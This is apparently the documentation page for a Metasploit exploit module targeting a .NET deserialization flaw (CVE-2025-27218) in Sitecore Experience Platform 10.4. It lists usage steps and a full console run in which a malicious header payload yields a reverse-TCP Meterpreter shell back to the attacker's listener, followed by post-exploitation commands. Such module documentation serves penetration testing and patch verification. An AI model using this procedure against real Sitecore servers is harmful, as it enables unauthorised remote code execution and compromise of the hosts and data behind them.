 ## Vulnerable Application
This module exploits a .NET deserialization vulnerability in Sitecore Experience Manager (XM) and Experience
Platform (XP) 10.4 before KB1002844 by injecting a malicious Base64-encoded BinaryFormatter payload into an HTTP header.

### Setup
SiteCore can be downloaded from the [downloads page](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform/104/Sitecore_Experience_Platform_104).
Note that a license is required to run the application.

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/sitecore_xp_cve_2025_27218`
3. Set the `RHOST` abd `LHOST`, options
4. Run the module
5. Receive a Meterpreter session as the `IIS APPPOOL\XP0.sc` user.

## Scenarios
### SiteCore XP 10.4.0 Revision 010422 running on Windows Server 2022
```
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > set rhost xp0.sc
rhost => xp0.sc
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > dns add-static xp0.sc 192.168.123.244
[*] Added static hostname mapping xp0.sc to 192.168.123.244
msf6 exploit(windows/http/sitecore_xp_cve_2025_27218) > run
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. The target is running SiteCore.
[+] Server responded with 200, this probably means it worked.
[*] Sending stage (203846 bytes) to 192.168.123.244
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.244:49832) at 2025-03-27 08:58:13 -0700

meterpreter > getuid
Server username: IIS APPPOOL\XP0.sc
meterpreter > sysinfo
Computer        : WIN-2I9LBN2Q0R5
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```